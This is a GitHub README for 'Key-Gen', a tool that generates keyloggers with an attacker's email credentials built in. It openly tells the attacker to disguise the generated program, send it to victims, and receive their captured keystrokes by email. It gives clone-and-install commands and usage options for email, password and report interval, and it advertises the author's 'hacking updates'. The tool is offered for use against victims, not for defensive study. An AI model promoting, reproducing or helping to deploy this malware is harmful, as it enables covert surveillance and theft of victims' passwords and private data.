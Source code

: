 # Keylogger Generator

**Key-Gen** is a python based-project that enable attacker to generate a specific keylogger software with a uniquet ID on it, the keylogger software contain attackers email credential. means that is capable of send report to the attacker email address.

This Our Keylogger Software will silently captured and record all the keystrokes that the victims types on the targetted machine, and leter on send them to the attacker email. 

# How it Work:
1. An attacker run **Key-Gen** by specifying their email address, password and report interval (in seconds).
2. **Key-Gen** generate a specific keylogger software with a uniquet ID on it.
3. Attacker rename the generated keylogger software and send it to their Victims.
4. Victims mistakely start the keylogger software. BOOM 🎇 Game Over!.
5. Keylogger software send some information to the attacker's email, each time victims connected to their network.


# Our Keylogger Software:

Visit this site [https://github.com/evilfeonix/Key-Gen/wiki](https://github.com/evilfeonix/Key-Gen/wiki/Home) for detail on **Our Keylogger Software**

# Keylogger Generator Installation
```bash
apt install bash python3
```
```bash
git clone https://github.com/evilfeonix/Key-Gen.git
```
```bash
cd Key-Gen
```
```bash
bash installer.sh
```
```bash
python3 keygen.py
```

# Keylogger Generator Usage
```css
===========================================================
|         _  __                 ____                      |
|        | |/ /___ _   _       / ___| ___ _ __            |
|        | ' // _ \ | | |_____| |  _ / _ \ '_ \           |
|        | . \  __/ |_| |_____| |_| |  __/ | | |          |
|        |_|\_\___|\__, |      \____|\___|_| |_|          |
|          v[1.0]  |___/   Coded By EvilFeonix            |
===========================================================
          
USAGE: python3 keygen.py [Options.. [-e] [-p] [-r]]
    -e      Specify Email Address To Send Report   
    -p      Specify Password Of The Email Address  
    -r      Specify Interval For Sending Report  

Example: python3 keygen.py -e email@domain.tld -p pass1234
Example: python3 keygen.py -e email@domain.tld -p pass1234 -r 600

[!]  Ensure that the report Interval is written in seconds  [!]
[!]            eg.( 600 seconds = 10 minutes)               [!]
===========================================================
```

# Keylogger Generator Sopport:
This our Keylogger Generator Sopport both
- Termux
- Kali-Linux

# Support and Encourage Us:
Follow us on [github.com](https://github.com/evilfeonix)...

Fork, and Star our repositories

Follow us on [facebook.com](https://facebook.com/evilfeonix), [instagram.com](https://instagram.com/evilfeonix), and [youtub.com](https://youtub.com/@3V1LF30N1X) for latest hacking updates.



# License

This project is licensed under the MIT License - see the LICENSE file for details.
